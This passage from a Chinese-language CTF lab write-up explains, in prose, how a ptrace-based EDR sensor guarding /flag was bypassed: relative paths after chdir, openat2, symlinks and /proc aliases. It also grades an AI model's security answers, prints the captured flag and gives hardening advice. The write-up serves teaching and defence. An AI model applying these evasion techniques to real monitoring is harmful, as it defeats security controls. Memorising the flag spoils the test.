**问题 3：只挂 `open`/`openat`、漏掉 `openat2(437)` 的后果；为何枚举 syscall 号会持续漏检；应挂在哪一层**（截图 15）——三条漏检原因（内核新增 syscall、同一语义多入口、批量提交接口）**正确**，与步骤 6/11 的实测一致（`openat2` 连**字面量 `/flag`** 都能直接读通）。**一处不准确**：把 io_uring 描述成「通过**多个系统调用**完成一个操作」——实际是**一次 `io_uring_enter` 提交 SQE、由内核异步上下文执行** `IORING_OP_OPENAT`，tracer 看不到独立的 `openat`；而且本环境 `io_uring_setup` 直接 **EPERM**（seccomp 拦截，步骤 13），该面根本不可用。**加固建议偏泛**（「文件系统层」「内核文件系统模块」），未点名业界标准挂载点：**LSM 钩子（`security_file_open`）/ fanotify / auditd 的 `-w` 内核审计**。

> 口径说明：io_uring 的机制描述不准确，且未察觉本环境已被 seccomp 关闭；本文以步骤 13 的 raw syscall 实测为准。



**问题 4：审计被绕过后的应急排查与加固（auditd / eBPF / LSM）**（截图 16）——排查方向（会话与登录日志、`/proc/<pid>/fd` 残留、内核审计日志）与加固三层（auditd 规则、bpftrace tracepoint、AppArmor/SELinux）**总体可用**，可作为加固章节素材。**但有三处问题（均已实测核验）**：

1. 推荐 `strace`/`ltrace` 排查——**靶机实测这些命令都不存在**（同时缺失的还有 `ausearch`/`auditctl`/`lsof`/`fuser`/`bpftrace`/`gdb`/`xxd`/`hexdump`；存在的只有 `objdump`/`readelf`/`nm`/`strings`/`od`/`gcc`/`python3`）。连它推荐的 `auditctl` 都没装，「用 auditd 排查」在本靶机上根本无法执行；
2. auditd 示例只列了 `open`/`openat`/`open_by_handle_at`，**恰恰漏了 `openat2`**，与问题 3 的缺口自相矛盾（本题的绕过正是 `openat2`）；
3. SELinux 示例 `setsebool -P allow_execmem on` 与「限制敏感文件访问」**毫无关系**（那是允许可执行内存，方向反了）。

> 口径说明：第 1、3 点属事实错误，第 2 点属自相矛盾；本文以靶机工具实测（`logs/220546-tools_body.json`）与 `openat2` 实测为准。



**问题 5：ATT&CK 防御规避（Defense Evasion）下 Masquerading / Indicator Removal / Impair Defenses / Obfuscated Files or Information 的目标差异与检测思路**（截图 17）——四类子技术的**归类准确**（伪装=改外观、痕迹清除=清除自身痕迹、削弱防御=破坏或绕过安全工具、混淆=保护内容不被识别），与本题 11177 的正确答案自洽。**小瑕疵**：检测思路偏通用（「分析系统的合法流量」），未给出本题相关的落地指标——例如「审计器配置被改、EDR 服务被停、策略被卸载」这类 Impair Defenses 的具体遥测。

> 口径说明：归类无误，仅检测建议不够落地，不影响结论。



**问题 6：评估「仅在安全事件发生后才临时启用 EDR 数据采集」；持续遥测、跨数据源关联、ATT&CK 覆盖度评估的价值**（截图 18）——后三问（持续遥测、跨数据源关联、ATT&CK 覆盖度评估）**论述充分且正确**，与 11179 的 A/B/D 对应。**核心判断错误**：模型开篇称该观点「**有一定的合理性**」，并给出「**分时段采集**」建议——这与本题 11179 的判分直接冲突（该选项被判错）：攻击者完全可以活动在采集关闭的时间窗内，事后开启**无法回溯**已发生的活动。模型也未指出正确替代是「**持续保留关键遥测 + 采样/聚合/边缘过滤**」。

> 口径说明：模型对 11179 的错误选项给出了肯定性评价，本文以平台判分与追问后的自我纠正为准。

**追问（会话 5288）**：向模型指出「事件后临时启用采集」被判错并要求重新评估——模型**完全纠正**：改判为「仅在安全事件发生后临时启用遥测……可能无法有效应对攻击者利用的时间窗口，导致威胁响应的延迟和数据完整性的问题」，并给出正确做法「**持续保留关键遥测 + 采样/聚合/边缘过滤**」，与 11179 的 A/B/D 结论一致。



**模型错误汇总（以靶机实测为准）**：Q1「ptrace 需要 root」与「改自己的 syscall 栈可规避」；Q2「`chdir("/flag")`」与「`/flag` 是符号链接」两个错误前提；Q3 把 io_uring 说成「多个系统调用完成一个操作」且未察觉本环境已被 seccomp 拒；Q4 推荐未安装的 `strace`、auditd 示例漏掉 `openat2`、SELinux 示例方向错误；Q6 对 11179 的错误选项给出「有一定合理性」的判断。Q2/Q6 经追问后自我纠正，其中 Q2 的纠正文本出现新的自相矛盾。

### 与 4-3 的分水岭（对比小结）

| 维度 | 4-3（G3） | 4-4（G4，本题） |
| --- | --- | --- |
| 防护层次 | 用户态 libc 符号 Hook（`LD_PRELOAD`） | 系统调用层审计（ptrace，sensor 为 tracer） |
| 判定位置 | 进程内被 hook 的 libc 函数 | **独立用户态 tracer 进程**（`TracerPid` 可见） |
| 判定方法 | `realpath()` 归一化后 `strcmp("/flag")`（严） | **朴素归一化**（合并 `/`、丢 `.`）后 `strcmp("/flag")`，不解析 `..`/软链/magic link（弱） |
| 直接 syscall 能否绕过 | ✅ 能（不经 libc 符号） | ❌ **不能**（syscall 边界审计，截图 03） |
| 本题绕过根因 | 防护边界画在 libc 符号层 | 判定只比字符串 + syscall 号覆盖不全（漏 `openat2`） |
| 标准答案 | 内联汇编直发 `openat(257)` | `chdir("/")` + 相对路径 `open("flag")` |
| 附加缺口 | `syscall()`、`openat64`、清 `LD_PRELOAD`、静态链接 | `/proc` 别名、软链、`..`、`openat2(437)`；而 fork/exec 与 io_uring **不可用** |

一句话：4-3 是「**判定很严、覆盖很窄**」（只能换调用层次），4-4 是「**覆盖较全、判定很弱**」（只能换路径写法）——**同一句话「绕过 EDR」在两题里指的是完全不同的东西**。

### 17. 靶机遗留物与清理

| 位置 | 内容 | 是否清理 |
| --- | --- | --- |
| `/tmp/edrXXXXXX/`（面板每次运行一个，含 `prog.c` + 编译产物 `prog`；**`app.py` 自己不清理**） | 本次解题（探针 + 路径矩阵 + 截图脚本各跑一轮）累计产生：首轮盘点 75（21:59）→ 首次清理前 **76**；其后追加的反汇编/工具探针与截图又生成 **10** 个 | 分两轮清理：首次 `rm -rf /tmp/edr*` 得 `[before] 76 → [after] 0`；末次（`logs/220740-p9_cleanup.json`）`[before] 10 → [after] 0`、`/tmp` 条目数 **0** |
| `/tmp/lnk44demo`、`/tmp/lnk44`（→ `/flag` 的软链） | `demo/08`、`b3`/`b8` 探针自建 | 均在程序内 `unlink`，已清理（`p8` 盘点确认 `/tmp` 无其它条目） |
| `/tmp/x44_sec` | seccomp 探针的 `creat` 测试文件 | 程序内 `unlink`，已清理 |
| 最终状态 | 末次 `probes/p9_cleanup.c` 已把 `/tmp/edr*` 全清（连其自身目录也一并删除）；**交付时靶机 `/tmp` 为空** | 以末次 `[after] = 0`、`/tmp 条目数 = 0` 为准 |
| 其它 | 未修改任何配置文件、未安装任何软件、**未改动 `/opt/edr`**、未使用 SSH、未做提权（全程 `CapEff=0`） | — |

题目环境自带的设定（不是本次遗留，但应写进加固建议）：`/opt/app/app.py` 与 `/opt/edr/sensor` 对 `ctf` **可读**，sensor **未 strip**，`is_flag` / `/flag` / `__EDR_BLOCK__` 等关键符号与字符串直接可见——**等于把拦截逻辑连同函数名一起交给攻击者**，极大降低了绕过门槛（步骤 8 的反汇编正是靠这一点完成）。

另需说明：`probes/p10_final_recheck.c` 在两次清理之间执行时曾观察到 1 个 `/tmp/edr*` 目录（其自身运行的临时目录），属清理流程的中间态；最终以末次清理日志为准，交付时 `/tmp` 为空。

### 18. 截图脱敏说明

教学问答页面（`13`～`18`）顶部 header 右侧会显示平台账号信息（显示名 + 学号）。为不把个人账号信息带进公开仓库，这 6 张截图按 4-3 的做法做了**局部涂白 + 标注「账号已脱敏」**的处理（脚本 `.local/process/4-4-scripts/mask_account.py`）：

* 仅重绘账号胶囊所在的矩形区域（2 倍缩放下 device px 约 `(2130,38)-(2495,112)`），右侧导航按钮（自 x≈2506 起）**未受影响**；
* 端到端验证（`verify_mask.py`）：另抓一张**未脱敏**同页截图作参照，其 BOX 内 ink 像素 = **3088**；6 张入库图 BOX 内 ink 降至 **816**（只剩「账号已脱敏」标注文字），且与「参照图 + 该矩形重绘」的结果**逐点完全一致**；右侧按钮区仍保留平台主色 41 px；
* 页面其余部分——平台导航、会话标题、提问与回答全文——均未改动，问答内容完整可读。

**判分截图（`12-平台判分-五题全部正确.png`）**：该图属实训平台答题页 `/student/course/answer/7275`，交付前复核发现其**页头右上角渲染了登录账号的真实姓名**（文本节点 CSS 盒 x=1271, y=31.3, w=36, h=25 → 2 倍缩放下 device px `(2542,63)-(2614,113)`；姓名下拉整体 device x 2502–2660），因此同样做了局部脱敏：

* **处理对象与位置**：仅把 device 矩形 `(2504,58)-(2680,128)` 重绘为页头蓝底 `(114,177,239)` 并标注「账号已脱敏」，脚本 `.local/process/4-4-scripts/mask_name_grade.py`；
* **边界依据**：左侧「翻译」图标止于 device x≈2502、右侧滚动条自 x≈2784 起，故取 2504–2680 不会误伤页面其余元素；
* **证据链**：用无头 Chrome 重新渲染同一页面，与出货图页头**逐像素一致**（前 160 行差异像素 = 0），确认原图确实保留了姓名而非误判；
* **验证结论**：脱敏前后差异 bbox = `(2521,68)-(2669,102)`，完全落在该矩形内，**BOX 之外差异像素 = 0**，图片尺寸 `2800x5300` 不变；
* **独立复核补充**：与另抓的未脱敏同页参照图整体对比时，除该姓名区域外仅「作答正确」红字有 801 px 抗锯齿差异（同一文本两次渲染所致），不存在其它携带个人信息的区域；
* **历史状态**：同一判分页面在 4-1/4-2/4-3 的截图中仍为**未脱敏的历史状态**，本次未改动；如需彻底清理，应在各自题目目录内另行处理并单独提交。

## Flag

```text
vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}
```

精确字节（标准答案程序读回后 hexdump，共 **38** 字节，末尾 `0a`；两次独立读取一致）：

```text
76 6d 63 7b 48 68 55 36 57 36 33 6f 55 4e 63 72 37 56 59 37 5a 59 46 59 4d 37 64 73 4a 76 4a 4d 76 65 33 33 7d 0a
= "vmc{HhU6W63oUNcr7VY7ZYFYM7dsJvJMve33}\n"
```

## 总结与心得

### 漏洞原理

1. **采集层下沉 ≠ 判定正确，本题的根因就在这个错位**：sensor 用 ptrace 在 syscall 边界拿到了**正确的系统调用与正确的参数**，但它在用户态用「朴素字符串归一化 + `strcmp("/flag")`」判定敏感文件（反汇编已逐指令确认：`process_vm_readv` → 合并 `/`、丢 `.` → `strcmp(norm, "/flag")`）。**ptrace 解决了「看不看得见」，却把「看见了之后怎么判」留在了字符串比较里**——而字符串比较不是安全边界。
2. **判定的第一个分支就依赖「路径长什么样」**：只对以 `/` 开头的参数做归一化，相对路径直接返回 0。于是 `chdir("/")` + `open("flag")` 一击即中——审计器看到的是一个**语法上合法的相对路径**，内核看到的是同一个 `/flag`。**安全判定不能依赖调用者选择的路径表示形式**。
3. **「朴素归一化」只处理了写法噪声，没有处理语义等价**：它合并连续 `/`、丢弃 `.`，但**不解析** `..`（步骤 12）、**不 follow** 软链（步骤 10）、**不解析** `/proc` magic link（步骤 9）、**不看** inode/设备号。路径等价类远大于字符串等价类，用字符串比较去覆盖它必然漏。
4. **逐 syscall 号枚举必然持续漏检，而且两层防护的清单还会互相打架**：审计只挂 `open(2)`/`openat(257)`，同语义的 `openat2(437)` 连**字面量 `/flag`** 都能直接读通（步骤 11）；与此同时容器 seccomp 却准确地关掉了 io_uring、clone3 这类新接口（步骤 13）——同一个「新接口风险」，seccomp 侧防住了，审计侧漏掉了。**覆盖清单一旦靠人工枚举，就一定会分叉。**
5. **fail-open 的失败分支本身就是漏洞**：`process_vm_readv` 读不到路径就**直接返回 0 放行**（步骤 8 反汇编）。安全组件在「自己看不清」时应**默认拒绝**，而不是默认放行。
6. **未 strip 的二进制 + 可读的面板源码 = 把判定规则交给攻击者**：`nm` 一行看出 `is_flag`，`objdump` 直接读出归一化循环与比对常量，`.rodata` 里 `"/flag"` 明文可见（步骤 8）；`app.py` 还把 `returncode == 42 or "__EDR_BLOCK__" in p.stderr` 的判定方式一并交代（步骤 4）。
7. **根因仍是「用户可控代码 + 敏感资产同权限域」**：面板把用户提交的 C 源码在本机编译并以 `ctf` 身份执行，而 `/flag` 是 `world-readable`（`0100644`）。syscall 审计只是贴在系统调用外面的一层滤镜，**读权限本身从未收紧**——防护失效点从来不在「看得见看不见」，而在「东西本来就不该给他读」。

### 做题方法

- **先重做基线对照，不要沿用上一题的经验**：4-3 的答案是内联汇编直发 syscall，本题**原样搬过来直接失败**（截图 03）。一次对照就把「绕过对象」从「调用层次」改成了「判定逻辑」，这是本题最重要的一次方向修正。
- **先做源码/二进制级侦察，再构造利用**：`app.py` 给出「临时目录 + `gcc -O0 -w` + 由 sensor 启动 + `__EDR_BLOCK__` 判定」的运行方式；`/proc/self/status` 的 `TracerPid`/`Seccomp` 直接暴露机制；sensor 未 strip 又能直接反汇编出判据。拿到这些之后，每一步都是「按机制构造」而不是「按现象猜」。
- **一个路径一次提交，用矩阵批量取结论**：命中即整进程阻断、`stdout` 被整体丢弃，无法在一次运行内汇总；`matrix.py` 逐条提交、本地汇总，11 条路径给出完整行为画像（步骤 6）。这比一条条下发快得多，也更容易发现反直觉细节（例如 `/flag/` 未命中审计却打不开文件）。
- **反汇编复核，把「行为模型」变成「证据」**：伪代码能复现全部 12 条实测路径，且 `0x2004` 的 `"/flag"` 与归一化循环逐指令对应（步骤 8）——这一步之后，结论就不再依赖推断。
- **备选方案要覆盖同一根因的不同侧面，并留一条独立根因**：相对路径 / `..` / magic link / 软链是「路径等价类没覆盖」，`openat2` 是「syscall 号没覆盖」。四条备选 + 一条独立根因合起来，才能说明这不是「再补一个符号/规则」能修好的问题。
- **失败与负面记录同样要留**：io_uring 被 seccomp 关掉（EPERM）、fork/exec 被 `PTRACE_O_TRACEFORK`/`TRACEEXEC` 兜住、`/flag/` 与 `/proc/1/root/flag` 虽未命中但不可利用、以及一批编译踩坑（GCC 14 隐式声明是 error、面板不清理临时目录导致相对 `#include` 失败）——它们刻画了防护的真实边界（步骤 14）。
- **注意平台判分细节**：本题 5 题首次提交即全部判对，未触发 4-2 那套「`answerHistory` 只记首次判分、需整卷重提刷新」的流程；即便如此也应先复核 `answerHistory.isCorrect` 再下结论。
- **问答的结论要回测**：模型给出的 `chdir("/flag")`、`/flag` 是软链、「ptrace 需要 root」、「事件后临时启用采集合理」等说法，全部与靶机实测/平台判分冲突——以实测为准并在文中标注（步骤 16）。

### 修复建议

- **判定必须基于「打开的是哪个 inode」，而不是「路径字符串长什么样」**：以 `fstat`/`fstatat` 取 `st_dev` + `st_ino` 与敏感文件的 inode 比对；需要在路径层做归一化时应使用 `realpath()`，并用 `openat2` 的 `RESOLVE_NO_MAGICLINKS` / `RESOLVE_NO_SYMLINKS` 等约束解析行为（对应 AI 问答 2）。
- **不要枚举 syscall 号，把文件访问审计挂到语义层**：优先用 LSM 钩子（`security_file_open`）、fanotify、auditd 的 `-w /flag -p r` 内核审计——它们挂在「文件被打开」这一语义上，新增系统调用不会绕过；eBPF 也应挂在内核 tracepoint/`fentry` 而非用户态 tracer 的 syscall 号列表上（对应 AI 问答 1、3；注意 auditd 规则也要把 `openat2` 一并列入）。
- **若必须用 ptrace，至少做到三点**：① 覆盖**整个入口族**（`open`/`openat`/`openat2`/`creat`/`open_by_handle_at`/`name_to_handle_at` 等），而不是「当前已知的两个号」；② 失败分支 **fail-closed**（`process_vm_readv` 读不到路径、参数不可读时应阻断而不是放行）；③ 判定放到特权侧，且把「路径归一化」实现为可审计、可测试的独立模块。
- **阻断要落在权限上，而不是落在检测上**：`/flag` 不应与「能执行任意代码的进程」处于同一可读域——用专用低权限用户、最小 capability、只读挂载、LSM（AppArmor/SELinux）强制访问控制，让这类读取在**目标不可达**而不是**检测不到**。
- **安全组件自身要收紧暴露面**：`sensor` 应 strip（不要留下 `is_flag` 这类语义符号），`/opt/edr` 与 `/opt/app/app.py` 不应向被测用户可读；告警文案也不必把判定细节讲透（对应 AI 问答 4）。
- **不要在本机编译执行用户提交的源码**：需要「提交代码」场景时，应在一次性沙箱/独立容器内编译执行，去掉网络与宿主文件系统访问，敏感文件不挂载进沙箱——本题的 `gcc -O0 -w` + sensor 只是加了一层滤镜。
- **遥测要持续，不能「出事再开」**：仅在安全事件后临时启用采集，攻击者只要活动在采集关闭的时间窗内，事后**无法回溯**；正确做法是持续保留关键遥测 + 采样/聚合/边缘过滤来控制开销（对应 AI 问答 6 与 11179 的判分）。
- **把「审计被绕过」本身纳入告警**：出现 `openat2` 等未覆盖 syscall 的调用、审计器 `process_vm_readv` 失败、`/proc/*/root` 与软链形式的敏感路径访问、子进程脱离跟踪等，都是可疑信号；这类信号只在内核态遥测里可靠获得。

原始过程记录：`.local/process/4-4-ctf-process.md`；教学问答原文：`.local/process/4-4-qa-transcript.json`；复现脚本：`.local/process/4-4-scripts/`（`probe_src.py` 提交 C 源码、`matrix.py` 路径判定矩阵、`submit.py` 提交与复核判分、`ask_qa.py` + `qa-questions.json` 顺序提问、`ask_followup.py` 定向追问、`demo/*.c` 11 个演示程序、`probes/*.c` 侦察探针、`panel_44.mjs`/`vmc_grade_44.mjs`/`qa_shots_44.mjs` 无头浏览器截图、`verify_shots.py`/`verify_pixels.py`/`mask_account.py`/`verify_mask.py` 截图校验与脱敏、`logs/` 全部原始证据）。
